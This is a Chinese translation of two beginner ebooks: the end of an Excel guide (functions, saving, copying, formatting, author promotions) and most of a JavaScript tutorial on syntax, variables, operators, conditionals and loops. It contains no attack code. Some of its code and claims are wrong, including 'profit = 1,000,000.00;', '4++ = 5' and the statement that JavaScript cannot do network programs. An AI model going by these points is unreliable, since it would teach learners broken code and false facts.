- 2. 输入“ AVERAGE ”并输入“ ( ”。
- 3. 选择你需要处理的单元格。
- 4. 添加“ ) ”并按 Enter 键。

- MAX – 使用此函数，你可以轻松找出一组值中的最大值。要使用 MAX 函数，你必须：
- 5. 高亮一个空单元格并在其中输入等号。
- 6. 输入“ MAX( ”。
- 7. 高亮你正在处理的单元格。
- 8. 输入“ ) ”并按 Enter 键。

MIN – 此函数与 MAX 正好相反。基本上，MIN 可以给出一组值中的最低值。要使用 MIN，需要执行以下操作：

- 9. 在空单元格中输入“ = ”。
- 10. 输入“ MIN ”并打开一对括号。
- 11. 选择你希望处理的单元格。
- 12. 添加“ ) ”并按 Enter 键。

AUTOSUM – 此函数允许你快速轻松地将公式输入电子表格。使用 AUTOSUM，你不必记住任何 Excel 函数/公式的语法。要使用此函数，你必须：

- 13. 高亮行/列末尾的单元格。例如，如果你正在处理 A1、A2、A3 和 A4，则应高亮 A5。
- 14. 单击名为 FORMULAS 的功能区，然后点击 AUTOSUM。Excel 将高亮整行/整列，并在空单元格中显示一个预装函数。
- 15. 如果 Excel 高亮了正确的单元格并提供了正确的函数，请按 Enter 键。如果自动处理过程有任何问题，请使用编辑栏进行必要的更改。完成后，按 Enter 键。

以下是屏幕截图：



### 如何使用其他函数

“SUM”是 AUTOSUM 的默认函数。不过，你可以轻松选择其他函数。单击 AUTOSUM 按钮后，Excel 会显示多个选项，例如 MIN、MAX、AVERAGE 和 COUNT NUMBERS。然而，如果你对这些内置函数不满意，可以访问 Excel 的完整函数集合。要查看这些函数，你必须：

- 1. 高亮你希望放置结果的单元格。
- 2. 访问名为 FORMULAS 的功能区并点击 INSERT FUNCTION。这是该功能区的第一个按钮。
- 3. 屏幕上会出现一个对话框。在此，你有两个选项：
- 1. 第一个选项
- 1. 描述你想使用的函数，或从下拉菜单中选择一个类别。
- 2. 对话框将显示多个函数。单击你想使用的函数。
- 3. Excel 将说明该函数的工作方式。此外，它还会显示该
特定函数的语法。

- 4. 如果你想进一步了解该函数，请单击写着“ Help on this function ”的蓝色链接。
- 5. 准备好使用该函数后，点击 OK 按钮。
- 6. 会出现另一个对话框。不过，这个对话框会建议一组可应用该函数的单元格。如果你想使用建议的单元格，只需按 Enter 键。如果建议不正确，你可以手动选择适当的单元格并按 Enter 键。

### 2. 第二个选项

- 1. 单击写着“ Range Selector ”的按钮。此操作会给你一个更小的对话框。
- 2. 在你要处理的单元格上拖动鼠标。
- 3. 再次点击“ Range Selector ”返回上一个对话框。

## 第 4 章：如何管理 Excel 文件

与大多数程序一样，Excel 允许你保存文件。这意味着你不必一次性完成项目或作业。你可以保存未完成的文件，并在以后返回处理。

根据计算机专家的建议，你应该频繁保存文件。此技巧有助于防止系统崩溃或断电引起的问题。

## 如何保存文件

Excel 程序会自动命名新文件。名称格式为 Bookn，其中“ n ”表示从 1 开始的数字（例如 Book1、Book2、Book3 等）。在同一会话中，你每创建一个工作簿，该数字就会增加 1。

_要保存新文件，你应该：_

- 1. 点击写着 SAVE 的按钮。或者，你也可以按键盘上的 CTRL+S。
- 2. Excel 会显示一个对话框。使用该对话框指定文件名和你希望保存到的位置。
- 3. 设置好正确的名称和位置后，点击 SAVE 按钮。


### 在现有文件上保存更改，您必须：

-   在键盘上按 CTRL+S。此操作将保存现有文件上的最近更改。一般来说，您应每 10 分钟保存一次更改。这将有助于确保所有重要修改都保存到电子表格文档中。显然，您不想一遍又一遍地重复做事，尤其是那些涉及复杂计算和流程的事情。

### 如何将工作簿另存为不同文件

-   在名为“FILE”的功能区上单击，然后单击 SAVE AS。
-   您将看到一个对话框，要求输入要使用的文件名和位置。
-   输入所需信息并点击 SAVE。

### 如何创建新文件

-   访问 FILE 功能区并点击 NEW。屏幕将显示各种模板，您可以使用它们来开始新项目。
-   选择您需要使用的模板。大多数 Excel 用户选择空白模板。

重要提示：如果您想创建空白工作簿，只需在键盘上按 CTRL+N 即可。

## 第 5 章：如何复制和移动数据

在某些情况下，您必须将信息传输到工作表的不同部分。删除并重新输入条目可能很繁琐，因此 Excel 提供“复制/移动”功能是一件好事。基本上，此功能允许您将数据复制或传输到不同的文件或应用程序。这意味着您可以复制 Excel 条目并将其粘贴到文本文件上。

Microsoft 程序（例如 Notepad、PowerPoint、Excel 等）在移动或复制项目时使用相同的功能：粘贴、剪切和复制。

### 如何移动条目

-   选择您需要操作的单元格。
-   访问 HOME 并点击标有“CUT”的按钮。该按钮上有剪刀图标。
-   Excel 将突出显示您选择的单元格。
-   点击您想要传输数据的单元格。
-   通过按 Enter 键或点击 PASTE 按钮完成操作。

### 如何复制条目

-   突出显示您需要复制的单元格。
-   转到 HOME 并点击标有 COPY 的按钮。
-   点击您想要粘贴复制数据的单元格。
-   点击 PASTE 按钮（位于 HOME 功能区）或按键盘上的 Enter 键。

### 拖放功能

Excel 允许您仅通过拖动鼠标即可移动或复制数据。此功能称为拖放，可帮助您在不按键盘上的任何键的情况下操作数据。它简单易用，尽管您在拖动任何内容之前必须确保拥有正确的鼠标指针。

当您选择一个单元格时，Excel 会用黑色边框突出显示它。如果将鼠标指针放在此边框上，您会看到一个黑色十字——这是使用拖放功能所需的指针。

_要移动数据，您应该：_

-   选择您想要操作的单元格。
-   将鼠标放在单元格的边框上。
-   黑色十字出现后，将鼠标拖向目标位置。您会在屏幕上看到一些闪烁的线条——它们会显示在您释放鼠标后单元格将被放置的位置。
-   正确放置闪烁线条后，您可以释放鼠标的左键。

_要复制数据，您必须：_

-   突出显示您正在使用的单元格。
-   将鼠标放在这些单元格的边框上。指针应变为黑色十字。
-   按住 CTRL 键，左键单击边框并将单元格拖向目标位置。Excel 会在指针旁边显示一个黑色“+”符号。此符号表示您正在复制数据，而不是移动它。
-   到达正确的单元格后，释放鼠标的左键和 CTRL 键。

## 第 6 章：如何格式化单元格

创建电子表格后，您可以对其进行格式化以获得易读且专业的文档。Excel 提供了多种格式化单元格的方法，其中一些将在本章中讨论。为了帮助您在 2 周内掌握 Excel 的基础知识，本电子书将讨论当今最流行的格式。

### 开始选项卡

您可以通过点击 HOME 访问所有格式化选项。格式化组（见下图）包含 Excel 中一些最有用的格式。



### 如何更改字体

-   突出显示您想要操作的单元格。
-   点击当前字体名称右侧的下拉箭头。Excel 将按字母顺序显示所有可用字体。
-   选择您想要使用的字体并点击它。突出显示的单元格中的字母和数字将反映此更改。

### 如何更改字体大小

-   突出显示您需要格式化的单元格。
-   点击字体大小文本框。
-   输入您偏好的字体大小。

重要提示：您可以点击字体大小菜单的下拉箭头。然后，从列表中选择正确的字体大小。

### 如何应用粗体、斜体或下划线

-   选择您想要格式化的单元格。
-   根据您想要执行的操作，点击 **B**、<u>U</u> 或 *I*。
  -   **B** – 此选项使字符加粗。
  -   *I* – 此选项使字符斜体化。
  -   <u>U</u> – 使用此选项为字符添加下划线。

## 结论

再次感谢您下载本书！

我希望本书能够帮助您在仅 2 周内掌握 Excel 的基础知识。

下一步是使用 MS Excel 创建您自己的电子表格和工作簿。

最后，如果您喜欢这本书，我想请您帮个忙，您能否在 Amazon 上为本书留下评论？将不胜感激！

点击此处在 Amazon 上为本书留下评论！

此外，请务必订阅我的科技和编程通讯，以获取您的免费图书并了解更多编程知识。点击此处。

感谢您，祝好运！

点击此处获取使用 Bluehost 设置 WordPress 网站的分步说明。

## 奖励：通过我获得更多免费图书！

感谢您阅读我的书！我希望您从中获得了极大的价值。为了感谢您，我想赠送您更多免费图书以及与编程和技术相关的信息！

只需点击下面的链接并在我的网站上输入您的电子邮件地址！

您将获得的一切如果您认真对待提升编程技能都将对您有用。我将提供：

-   我更多的书籍
-   我如何在创纪录的时间内学会编程
-   与编程相关的我最喜欢的产品信息
-   以及更多！

[点击此处获取所有这些信息！](#)

如果您还没有，请务必查看我的新网站，[KindleBookSpot.com](https://KindleBookSpot.com)。这是一个我一直在努力的新项目，我真的希望它对我的读者有价值。我创建该网站是因为我想为你们提供一种更简单的方式，在一个地方找到最热门的折扣 Kindle 书籍。以下是我的网站的一些详细信息：

-   最畅销免费 Kindle 书籍列表
-   折扣小说和非小说书籍
-   每周图书
-   精选图书
-   在我的网站上推广您自己的图书

该网站不仅面向读者，也是新晋作者在新书成为畅销书之前推广新书的地方。因此，如果您想推广自己的图书，请查看我的网站，[KindleBookSpot.com](https://KindleBookSpot.com)。

我希望该网站对您有用，并希望在那里见到您！

**[订阅我们在 KindleBookSpot 的不断增长的社区，以便在最佳书籍打折和免费时收到通知。](https://KindleBookSpot.com)**

# JavaScript 学院

## 无压力学习 JavaScript 全面的方式


## 目录
- 引言
- 第1章：JavaScript 语言
- 第2章：JavaScript 的语法
- 第3章：JavaScript 代码的放置位置
- 第4章：JavaScript 语言中的变量
- 第5章：JavaScript 运算符
- 第6章：条件语句
- 第7章：JavaScript 语言中的函数
- 结论

## 开始之前……额外福利：从我这里获取更多免费书籍！

感谢阅读我的书！希望你能从中获得很棒的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！

只需点击下面的链接，并在我的网站上输入你的电子邮件地址！

如果你认真想要改变自己的编程技能，你获得的一切都会对你有用。我将提供：

- 我写的更多书籍
- 我如何以创纪录的时间学会编程
- 我最喜欢的编程相关产品的信息
- 以及更多内容！

点击此处获取所有这些信息！

## 引言

我想感谢并祝贺你下载了 *JavaScript 学校* 这本书。

本书包含经过验证的步骤和策略，教你如何掌握 JavaScript 语言的基础知识。

本电子书是为想要快速轻松地学习 JavaScript 的人创建的。通过聚焦 JavaScript 最重要的方面，本书将在短短几页内教会你所需了解的内容。如果你想理解 JavaScript 编程语言的基础知识，这就是你唯一需要的书。

再次感谢你下载本书，希望你喜欢它！

## 第 1 章：JavaScript 语言

### 基本信息

JavaScript 是当今最流行的编程语言之一。这种语言在现代网站和网页的开发中扮演着重要角色。它的特性和能力可以帮助你创建支持用户交互的动态网站。此外，JavaScript 是一种解释型计算机语言，具有强大的面向对象特性。

这种语言最初被称为“LiveScript”，但 Netscape（创建它的公司）将其改名为 JavaScript，以利用 Java（另一种编程语言）所享有的流行度。必须指出，JavaScript 与 Java 语言没有任何联系。

### JavaScript 的客户端形式

据计算机专家称，这种语言最流行的变体是客户端 JavaScript。网站开发者在创建项目时使用这种变体。一般来说，你可以通过两种不同方式使用客户端 JavaScript：

- 将其包含在网页的代码中
- 将其保存在外部文件中

对于第二种选择，你需要使用 HTML 文档来引用外部文件，并将其链接到你的网站。

基本上，你不必在创建网页时使用静态 HTML。你可以包含允许浏览器控制、用户交互以及动态创建 HTML 文件的应用程序和程序。

客户端 JavaScript 相比典型的 CGI（即通用网关接口）服务器端脚本具有多种优势。例如，你可以使用客户端 JavaScript 来判断用户是否在表单字段中提供了有效的联系信息。

每当用户提交表单时，JavaScript 代码就会运行。然后，系统会分析所提交表单中的信息。这种机制确保 Web 服务器不会处理无效请求。因此，客户端 JavaScript 为你的网站提供更好的安全性和性能。

这种编程语言还允许你收集用户发起的隐式或显式操作（例如链接导航、按钮点击等）。

### JavaScript 提供的优势

以下是这种编程语言提供的主要优势：

- 你可以减少服务器交互——JavaScript 可以在将用户输入的信息发送到 Web 服务器之前进行验证。这意味着你可以过滤掉服务器上的无用流量。
- 即时反馈——你的网站访客会立即看到自己是否漏掉了某个字段或输入了错误数据。他们无需重新加载页面就能看到错误消息。
- 改进的网页交互性——借助 JavaScript，你可以生成响应鼠标和键盘输入的用户界面。
- 增强的界面——使用这种语言，你可以轻松添加酷炫的界面元素（例如滑块、拖放组件等），为你的网站访客提供增强的界面。

### JavaScript 的缺点

就像生活中的其他事物一样，JavaScript 也有自己的缺点。主要缺点有：

- 这种语言不具备多进程或多线程能力。
- 你不能将 JavaScript 用于网络程序。这种语言不支持专注于网络的程序/应用程序。
- 你不能读取或编辑使用客户端 JavaScript 编写的文件。出于安全原因，这些功能被禁用。

## 第 2 章：JavaScript 的语法

你可以通过将 JavaScript 语句放在网页的 <script> 标签中来实现这种语言。一般来说，你可以将这些 <script> 标签放在网页的任何位置。不过，专业网站开发者通常将这些标签放在页面的 <head> 标签内。

基本上，<script> 标签指示浏览器将其包含的文本解释为脚本。以下是 JavaScript 的基本语法：

```
<script ...>
    JavaScript code
</script>
```

script 标签接受以下属性：

- Language——此属性表示所使用的语言。不过，较新版本的 HTML 和 XHTML 已不再支持此属性。
- Type——这是现代网站和网页中使用的属性。你必须使用它来表明你正在使用的计算机语言。确保其值为“text/javascript”。

考虑到这些属性，JavaScript 的语法是：

```
<script language="javascript" type="text/javascript">
    JavaScript code
</script>
```

### 第一次使用 JavaScript

在本节中，你将第一次使用这种脚本语言。你将使用的代码旨在计算机屏幕上显示“Hello World”。如你所见，JavaScript 代码（见下方截图）包含一个可选的 HTML 元素。该 HTML 注释可以使代码免受不支持 JavaScript 语言的浏览器影响。

符号“//→”终止 HTML 注释。在 JavaScript 中，“//”表示注释。这意味着你必须使用一对斜杠来防止浏览器将 HTML 注释解释为 JavaScript 语句的一部分。然后，你必须调用 **document.write** 函数将字符串写入 HTML 文件。

*重要提示：你可以使用 document.write 函数编写 HTML 语句、基于文本的内容，或两者兼有。*

以下是你必须输入 JavaScript 编辑器的代码：

```html
<html>
<body>
<script language="javascript" type="text/javascript">
<!--
    document.write ("Hello World!")
//-->
</script>
</body>
</html>
```

如果编写并执行正确，上面给出的代码将显示：**Hello World!**

### 空白字符和换行符

这种脚本语言会忽略程序中的制表符、空格和换行符。这意味着你可以使用这些元素让你的 JavaScript 代码更具可读性和可理解性。

### 分号

与其他计算机语言（例如 C++）类似，JavaScript 要求你使用分号终止简单语句。不过，如果你的语句输入在不同行上，则不必添加分号。例如，下面的代码即使没有任何分号也能正常工作：

```
<script language="javascript" type="text/javascript">
<!--
  var1 = 10
  var2 = 20
//-->
</script>
```


## 第 3 章：JavaScript 代码的位置

你可以将 JavaScript 代码放在 HTML 文件的任何部分。不过，建议将 JavaScript 代码放在 HTML 文档中的以下区域：

- 在 `<head> </head>` 区域
- 在 `<body> </body>` 区域
- 在文档的 `<head> </head>` 和 `<body> </body>` 区域
- 在外部文档中

本章将讨论上述每个区域。

### 将代码放在 `<head> </head>` 区域

如果你希望脚本在特定事件（例如用户点击按钮）期间运行，这里是理想的区域。下面的示例代码将向你展示如何将代码保存在此区域。

```html
<html>
<head>
<script type="text/javascript">
<!--
function sayHello() {
  alert("Hello World")
}
//-->
</script>
</head>
<body>
Click here for the result
<input type="button" onclick="sayHello()" value="Say Hello" />
</body>
</html>
```

如果输入正确，代码将显示如下：



### 将代码放在 <body> </body> 区域

一般来说，如果你希望 JavaScript 代码在网页加载时生成内容，就应将其放在 <body> 部分。在这里，你不需要使用 JavaScript 定义任何函数。下面是一个示例：

```html
<html>
<head>
</head>
<body>
<script type="text/javascript">
<!--
document.write("Hello World")
//-->
</script>
<p>This is web page body </p>
</body>
</html>
```

该代码生成以下结果：

```
Hello World
This is web page body
```

### 将代码放在文档的 <head> </head> 和 <body> </body> 区域

你也可以选择将 JavaScript 代码同时放在 HTML 文件的 <head> 和 <body> 区域。分析下面的示例：

```html
<html>
<head>
<script type="text/javascript">
<!--
function sayHello() {
  alert("Hello World")
}
//-->
</script>
</head>
<body>
<script type="text/javascript">
<!--
document.write("Hello World")
//-->
</script>
<input type="button" onclick="sayHello()" value="Say Hello" />
</body>
</html>
```

如果代码输入正确，打开 HTML 文件后将显示如下：



### 将代码放在外部文件中

使用 JavaScript 时，你肯定会遇到许多需要在不同网页上使用相同代码的情况。反复输入相同的代码既无聊又耗时。幸运的是，你可以直接将 JavaScript 代码保存在外部文件中。然后，只需将该文件链接到需要相同代码的网页即可。

使用这种方法时，应使用 **script** 标签和 **src** 属性。请查看下面的示例：

```html
<html>
<head>
<script type="text/javascript" src="filename.js" ></script>
</head>
<body>
.......
</body>
</html>
```

这种方法要求你将 JavaScript 代码写入文本文件，并使用“.js”作为扩展名保存（例如 example.js）。

让我们尝试一个简单的练习。将下面的代码复制到文本文件中，并保存为“filename.js”。然后，在添加 filename.js 文件后，使用 HTML 文档中的 **sayHello** 函数。

```javascript
function sayHello() {
    alert("Hello World")
}
```

## 第 4 章：JavaScript 语言中的变量

### JavaScript 中的不同数据类型

与其他编程语言类似，JavaScript 有自己支持的数据类型集合。因此，你可以使用 JavaScript 表示和操作某些值和信息。

这种编程语言支持以下基本数据类型：

- 布尔值（即 true 或 false）
- 字符串（例如“这本书很棒。”）
- 数字（例如 1、2、3、123 等）

JavaScript 还支持 **null** 和 **undefined**，这两种数据类型都描述单个值。最后，这种语言使用一种称为“对象”的复杂数据类型。你将在本书后面学习对象。

重要提示：JavaScript 将所有数字都视为浮点值。

### 变量

作为 JavaScript 用户，你可以将变量视为容器：你可以将不同类型的信息放入变量中。要访问存储的数据，只需指定保存该数据的容器即可。

必须先声明变量，然后才能使用它们。在 JavaScript 中，声明变量时应使用 **var**。请查看下面的示例：

```html
<script type="text/javascript">
<!--
var money;
var name;
//-->
</script>
```

上述代码声明了两个变量：**money** 和 **name**。

将数据保存到变量中的过程称为变量初始化。大多数程序员在声明变量时进行初始化。不过，你也可以只声明变量而不保存任何值：等到需要时再将数据保存到该变量中。

例如，你可以创建一个名为 **profit** 的变量而不输入任何值。当你从总收入中扣除支出后，可以回到所创建的变量并输入信息。要初始化变量，只需写出变量名、放置等号，然后输入要赋的值。下面是一个示例：

`var profit;`

`profit = 1,000,000.00;`

JavaScript 被视为一种“无类型”计算机语言。这意味着 JavaScript 变量可以包含任何类型的数据。与其他要求用户在创建变量时指定数据类型的语言相比，这是一个很大的优势。

### 变量的作用域

变量的“作用域”是计算机程序中声明该变量的区域。JavaScript 支持以下作用域：

- 局部作用域——局部变量仅在定义它们的函数内部可见。这意味着一个函数无法使用另一个函数的局部变量。
- 全局作用域——全局变量可供程序中的所有函数使用。这意味着你可以在代码中的任何位置定义它们。

如果局部变量和全局变量同名，局部变量将优先。如果你在局部使用现有全局变量的名称声明变量，就会隐藏该全局变量。分析下面的示例代码：

```html
<script type="text/javascript">
<!--
var myVar = "global"; // Declare a global variable
function checkscope() {
    var myVar = "local"; // Declare a local variable
    document.write(myVar);
}
//-->
</script>
```

上述代码将向你显示以下结果：Local。

### 为变量命名

为变量选择名称时，应记住以下规则：

- 不能将任何 JavaScript 关键字（例如 break、Boolean 等）用作变量名。你将在后面学习 JavaScript 关键字。
- 命名变量时可以使用字母、数字和下划线。但是，名称不能以数字开头。例如，sample1 是有效的，但 1sample 无效。
- 变量名区分大小写。这意味着 JavaScript 会将“ SAMPLE, ”“ Sample, ”和“ sample ”视为三个不同的变量。

### JavaScript 中的保留关键字

与其他编程语言类似，JavaScript 有一组具有特殊用途的单词。你不能使用这些单词来命名对象、方法、函数、循环和变量。下表将向你展示 JavaScript 语言中的所有关键字。

| if | do | in | int |
|---|---|---|---|
| new | try | for | var |
| else | enum | this | long |
| byte | case | true | null |
| char | goto | void | with |
| break | throw | false | final |
| catch | float | class | const |
| while | short | super | switch |
| export | throws | typeof | public |
| return | delete | static | double |
| import | instanceof | abstract | synchronized |
| Boolean | interface | extends | transient |
| finally | package | private | protected |
| function | volatile | continue | debugger |
| implements |  |  |  |


## 第 5 章：JavaScript 运算符

JavaScript 语言支持以下运算符类型：

- 逻辑运算符
- 比较运算符
- 赋值运算符
- 算术运算符
- 按位运算符
- 杂项运算符

让我们逐一讨论每种运算符：

### 逻辑运算符

JavaScript 支持以下逻辑运算符：

注意：假设 x = 5，y = 10。

- “&&”——这是**逻辑与**运算符。如果两个操作数都不等于零，则条件为真。例如：(x && y) 为真。
- “||”——此运算符称为**逻辑或**。如果至少有一个操作数不等于零，则条件为真。例如：(x || y) 为真。
- “!”——程序员称此运算符为逻辑非。该运算符会反转其作用对象的运算结果。例如：!(x && y) 为假。

### 比较运算符

以下是可在 JavaScript 中使用的比较运算符：

注意：我们使用以下变量：x = 2；y = 4。

- “==”——此运算符检查两个操作数是否相等。如果值相等，则条件为真。例如：(x == y) 为假。
- “!=”——使用此运算符，可以检查操作数的值是否不相等。如果值不相等，则条件为真。例如：(x != y) 为真。
- “>”——此处检查左操作数的值是否大于右操作数的值。如果大于，则条件为真。例如：(y > x) 为真。
- “<”——此运算符检查两个操作数的值。如果左操作数的值小于右操作数的值，则条件为真。例如：(x < y) 为真。
- “>=”——可以使用此运算符检查左操作数的值是否大于或等于右操作数的值。如果大于或等于，则条件为真。例如：(y >= x) 为真。
- “<=”——使用此运算符，可以检查左操作数的值是否小于或等于右操作数的值。如果小于或等于，则条件为真。例如：(x <= y) 为真。

### 赋值运算符

以下是可以用来赋值的运算符：

- “=”——这是简单赋值运算符。它将右操作数的值赋给左操作数。例如：(z = x + y) 将 x + y 的值赋给 z。
- “+=”——此运算符称为“加法赋值”运算符。它将两个操作数的值相加，并将结果赋给左操作数。例如：(z += x) 等价于 (z = z + x)。
- “-=”——程序员称其为“减法赋值”运算符。它从左操作数的值中减去右操作数的值。然后，将差值赋给左操作数。例如：(z -= x) 等价于 (z = z - x)。
- “*=”——此运算符称为“乘法赋值”。它将两个操作数的值相乘，并将乘积赋给左操作数。例如：(z *= x) 等价于 (z = z * x)。
- “/=”——此运算符称为“除法赋值”运算符。它将左操作数的值除以右操作数的值。然后，将商赋给左操作数。例如：(z /= x) 等价于 (z = z / x)。
- “%=”——JavaScript 用户称其为“取模赋值”运算符。它计算两个操作数的模。然后，将结果赋给左操作数。例如：(z %= x) 等价于 (z = z % x)。

### 算术运算符

下表列出了 JavaScript 中可用的算术运算符。为帮助你理解这些运算符的工作方式，我们使用两个示例变量：x = 2；y = 4。

- “+”——如果要对两个操作数（即运算符两侧的值）执行加法，应使用此运算符。例如：x + y = 6。
- “-”——此运算符允许你在代码中执行减法。此处，将从第一个操作数的值中减去第二个操作数的值。例如：y - x = 2。
- “*”——如果要相乘两个操作数，应使用星号。例如：x * y = 8。
- “/”——使用此运算符，将左操作数的值除以右操作数的值。例如：y / x = 2。
- “++”——此运算符允许将其作用对象的值加 1。例如：4++ = 5。
- “--”——此运算符将其所附操作数的值减 1。例如：x-- = 1。

重要提示：你也可以使用“+”运算符来组合数字和字符串元素。例如：“x” + 4 = x4。

### 按位运算符

这种编程语言允许你在代码中执行按位运算。以下是你可以使用的运算符：

注意：我们使用两个变量：x = 2；y = 3。

- “&”——这称为**按位与**运算符。它对参数中涉及的所有位执行**布尔与**运算。例如：(x & y) 为 2。
- “|”——程序员称此运算符为**按位或**。它对参数中涉及的位执行**布尔或**运算。例如：(x | y) 为 3。
- “^”——这称为**按位异或**运算符。它对参数中涉及的所有位执行**布尔异或**运算。使用**异或**时，只能有一个操作数为真。例如：(x ^ y) 为 1。
- “~”——此运算符是“一元”运算符（即它作用于单个操作数）。它称为**按位非**运算符，会反转操作数的位。例如：(~y) 为 -4。
- “<<”——此运算符称为**左移**。它根据右操作数指定的位数，将左操作数的位向左移动。此外，它使用零填充新位。将值向左移动 1 位相当于将其乘以 2。因此，(x << 1) 得到 4。
- “>>”——这称为**右移**运算符。它根据右操作数给出的位数，将左操作数的值向右移动。例如：(x >> 1) 得到 1。
- “>>>”——JavaScript 用户称其为“**右移补零**”。其功能与“>>”类似。唯一区别是最左侧的位始终等于零。

### 杂项运算符

本书本节将讨论两个不属于上述类别的有用运算符。这些运算符是：

- “?:”——这称为“条件运算符”。它检查表达式的值是真还是假。然后，根据评估结果执行其中一个指定语句。例如，如果条件为真，运算符将为表达式赋值 1。然而，如果条件为假，运算符将赋值 2。
- typeof——这是一个一元运算符，这意味着你可以将其用于单个操作数。你可以用它来确定操作数的数据类型。如果操作数是字符串、布尔值或数字，此运算符会给出“string”、“boolean”或“number”。然后，根据评估结果给出 true 或 false。

下表提供了有关 typeof 运算符的有用信息：

| 数据类型 | typeof 结果 |
|---|---|
| 对象 | “object” |
| 数字 | “number” |
| 布尔值 | “boolean” |
| 未定义 | “undefined” |
| 空值 | “object” |
| 函数 | “function” |
| 字符串 | “string” |

## 第 6 章：条件语句

在使用 JavaScript 时，会出现需要你从一组预定选择中选出一个的情况。在这些情况下，你必须使用条件语句。条件语句允许你的程序做出正确的判断并执行正确的过程。

这种编程语言提供了可在代码中使用的条件语句。本章将讨论三个最重要的条件语句：(1)“if”语句，(2)“if … else”语句，以及 (3)“if … else if …”语句。

下面详细讨论这些语句：

## 条件语句的流程图

下图展示了条件语句的基本流程图。



## if 语句

该语句是 JavaScript 中的基本条件语句。它帮助程序做出决策并执行其他语句。

“if” 语句的语法是：

```javascript
if (expression){
    Statement(s) to be executed if expression is true
}
```

上述代码会评估 JavaScript 表达式。如果评估结果为 true，则分配的语句将被执行。如果结果为 false，则不会执行任何分配的语句。在大多数情况下，你会使用比较运算符与此语句一起使用。

## if … else 语句

该语句比前一个更复杂。这是因为“if … else”语句在条件执行语句时提供了更好的控制。

以下是“if … else”语句的语法：

```text
if (expression){
    Statement(s) to be executed if expression is true
}else{
    Statement(s) to be executed if expression is false
}
```

你可以使用上述语法来评估 JavaScript 表达式。如果结果为 true，则“if”部分中的语句将被执行。反之，如果结果为 false，则“else”部分中的语句将被执行。

## “if … else if …” 语句

基本上，这是在“if … else”语句的增强形式。通过提供多个条件，它帮助你的程序做出正确的决策并执行正确的操作。

创建“if … else if …”语句时必须使用的语法如下：

```text
if (expression 1){
    Statement(s) to be executed if expression 1 is true
}else if (expression 2){
    Statement(s) to be executed if expression 2 is true
}else if (expression 3){
    Statement(s) to be executed if expression 3 is true
}else{
    Statement(s) to be executed if no expression is true
}
```

如果你仔细想想，上述语法是基本形式。它是一组简单的“if”语句，其中每个“if”都作为前一个 else 语句的 else 子句的一部分。此语法根据评估结果执行语句/ s。如果所有给定条件都为 false，系统将运行代码的“else”部分。

## Switch-Case 语句

你可以使用一系列“if … else if”语句来执行多路径分支系统。你在本书的前一节中已经学过这一点。然而，这种方法并不总是理想的答案，特别是如果所有分支都依赖于一个变量的值。

幸运的是，JavaScript 提供了 switch 语句。在上述描述的情况下，单个 switch 语句比一组“if … else if”语句更有效。

以下是基本 switch-case 语句的流程图：



### 语法

Switch 语句设计用于执行两件事：

- 提供程序可以评估的表达式
- 提供根据评估结果而运行的各种语句。

JavaScript 的内置解释器将每个 case 与表达式进行比较

## 第 7 章：JavaScript 中的不同类型的循环

编写自己的程序时，你会遇到需要多次执行操作的情况。显然，反复输入相同的内容会耗时（而且极其无聊）。幸运的是，JavaScript 提供了各种工具，可以帮助你快速轻松地重复语句。这些工具称为循环，是本章的主要主题。

以下是你可以在 JavaScript 语言中使用的循环：

### While 循环

程序员认为这是 JavaScript 中最基本的循环类型。基本上，while 循环在表达式为 true 时执行语句或代码块。一旦表达式变为 false，循环就会结束。

以下是 while 循环的流程图：



### 语法

以下是 while 循环的语法：

```javascript
while (expression){
    Statement(s) to be executed if expression is true
}
```

在执行任何语句之前，while 循环会评估分配表达式的条件。这意味着如果表达式为 false，则不会执行任何语句。

### Do … while 循环

“do … while”循环与 while 循环类似。唯一的区别是它在执行分配的语句/ s 之后评估表达式。如果评估结果为 true，循环将再次执行语句/ s。过程仅在结果变为 false 时停止。正因为如此，即使评估结果为 false，“do … while”循环也会至少运行一次。

典型的“do … while”循环的流程图是：



### 语法

以下是“do … while”循环的语法：

```javascript
do{
    Statement(s) to be executed;
} while (expression);
```

重要提示：语法末尾的分号是强制性的。请确保在所有“do … while”循环中都包含它。

### For 循环

这种循环以其紧凑性而闻名。一般来说，“for 循环”具有以下部分：

- Loop Initialization – 这是你在初始值开始计数器的部分。JavaScript 的解释器在运行循环本身之前执行此部分。
- Test Statement – 循环的这一部分评估分配的条件。如果分配的条件为 true，解释器将执行“for”循环内的代码。如果条件为 false，则系统控制将交给“for”循环之后的语句。
- Iteration Statement – 你可以使用此部分来增加或减少循环的计数器。

JavaScript 允许你将所有这些部分放在一行中。你只需要使用分号分隔每个部分。

下图显示了“for”循环的流程图：



### 语法

“for”循环的语法是：

```javascript
for (initialization; test condition; iteration statement){
    Statement(s) to be executed if test condition is true
}
```

